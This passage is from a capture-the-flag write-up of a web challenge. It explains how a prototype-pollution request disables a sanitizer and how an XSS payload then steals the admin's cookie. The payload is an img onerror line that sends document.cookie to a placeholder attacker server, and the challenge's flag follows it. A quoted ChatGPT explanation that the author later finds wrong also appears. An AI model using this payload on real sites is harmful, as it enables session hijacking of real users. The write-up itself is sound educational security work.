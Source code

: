 Yep, it works! I tried a few variations to disable the sanitizer but didn't get there.

I check with ChatGPT 🤓
>The # before sanitize signifies that sanitize is a private class field, a feature introduced in JavaScript with the ECMAScript 2019 (ES10) specification. Private class fields are denoted by the # symbol followed by the field name, and they are only accessible within the class in which they are defined

>private class fields are not accessible outside the class where they are defined. They are not part of the prototype chain and cannot be modified or accessed from external code. This means that the `#sanitize` field in the `Debug` class is not susceptible to prototype pollution.

OK, I guess I can't change it? 🤔 But.. if `debug.sanitize` is always true, why did the challenge dev add an if statement here at all? Guess I'll have to check smarter peoples writeups 😁

edit: After speaking with the challenge creator and playing around with the challenge again, it turns out any form of prototype pollution is enough, e.g. sending an empty object will work just fine. Presumably this overwrites the existing object, making `sanitize` undefined so that the if condition doesn't trigger 🤷‍♂️
```js
res.end('{"__proto__": {}}');
```

### Part 3: XSS
You can probably find many payloads to extract the flag, but I went with this one.
```js
<img src=x onerror=document.location='http://ATTACKER_SERVER/?'+document.cookie;>
```

Upon loading, the page will try to display the image `x`. Since that's not a valid `img src`, it will trigger an error and execute some JS to redirect the victim to the attacker server (us) with their cookie attached as a GET parameter.

If we submit the report to the admin and check our `ngrok` output (make sure to do this on the web UI), we'll find our flag 🔥
```txt
amateursCTF{s@nit1zer_ap1_pr3tty_go0d_but_not_p3rf3ct}
```

Side note: I actually forgot to submit the flag, so our team did not solve the challenge 🙃